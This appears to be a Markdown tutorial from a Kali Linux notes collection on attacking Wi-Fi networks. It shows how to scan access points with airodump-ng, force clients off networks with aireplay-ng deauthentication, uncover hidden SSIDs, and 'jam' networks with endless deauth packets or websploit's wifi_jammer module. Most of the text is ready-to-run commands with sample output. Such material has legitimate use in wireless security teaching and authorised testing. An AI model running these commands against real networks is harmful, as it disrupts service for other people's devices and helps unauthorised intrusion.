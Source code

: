 # 4. Gather AP Information

Gather informatin using airodump-ng tools.

`airodump-ng wlan0mon`

Or

`airodump-ng wlan0`

Based on network card name.

```
BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                                                        
0C:80:63:5B:87:7C   -1        0        2    0  10  -1   WPA              <length:  0>
2C:30:33:2A:77:7A  -60        8        0    0  11   65  WPA2 CCMP   PSK  Limon
70:4F:57:55:CC:F0  -65        9        0    0   1  270  WPA2 CCMP   PSK  SK
18:A6:F7:60:1E:D2  -67        9      453    0   1  270  WPA2 CCMP   PSK  BigAbir
```

```
BASSID	-> MAC address of the network.
PWR		-> Distance between us.
Beacons	-> Number of the announcement of the packet sent by access point.
#/s 	-> Capture data par seconds.
CH		-> The chanel the running on.
MB		-> Maximun speed the access point support.
ENC		-> Encryption type.
CIPHER	-> 
AUTH	-> Authontication Protocal.
ESSID	-> Name of the network.
```

## Capturing a specific Wi-Fi access point.

`iwconfig`				# check your network mode. It have to be *monitor* mode.

`airodump-ng wlan0mon`	# scan network.

If you need a specific informatin of a network.

`airodump-ng --channel 11 --bssid 2C:30:33:2A:77:7A --write Limon wlan0mon`

or

`airodump-ng --c 11 -b 2C:30:33:2A:77:7A -w limon Wlan0mon`


```
airodump-ng			-> tools
--channel/-c (CH) 	-> channel number
--bssid/-b (BSSID) 	-> BSSID / MAC address
--write/-w			-> If you want to write the information of specific network.
Limon / limon		-> Network Name
wlan0mon			-> Network interface
```

### Disconnect Any Device to Access Point

`aireplay-ng -0 3 -a 50:64:2B:C7:3E:30 -c B8:98:F7:9B:33:33 wlan0mon`

```
airplay-ng			-> tool
3					-> Authentication of the number.
-a 					-> Mac address of the target network / Wi-Fi
-c					-> Mac address of the client
wlan0mon			-> Network interface
```

### Fuebd the HIdden Wi-Fi

You have to in **motitor mode**

`airodump-ng wlan0mon`

` 10:62:EB:1F:42:6F  -83        0       14    6   1  -1   WPA              <length:  0>`

**length:  0** this network have no name. Its a hidden network.

`airodump-ng -c 1 --bssid 10:62:EB:1F:42:6F wlan0mon`

You can see this network have no name. But we can disconnect any client the network and we can discover the network name.

`aireplay-ng -0 3 -a 10:62:EB:1F:42:6F -c 78:44:76:B3:65:69 wlan0mon`

### Jamming Wi-F- Nwtwork

`aireplay-ng -0 0 -a 50:64:2B:C7:3E:30 wlan0mon`

```
airplay-ng			-> tool
0					-> Infinity number of authentication.
-a 					-> Mac address of the target network / Wi-Fi
wlan0mon			-> Network interface
```

We can using another tools for jamming network. This tools name **websploit**. This tools is not default install in kali linux. So we have to install first.

`apt-get install websploit`

`websploit`

`show modules`  # options

`use wifi/wifi_jammer`

`show options`

`set BSSID XX:XX:XX:XX:XX:XX`

`set ESSID NAME_OF_THE_NETWORK`

`run`

You can see two terminal on the network. This wifi network is jamed.

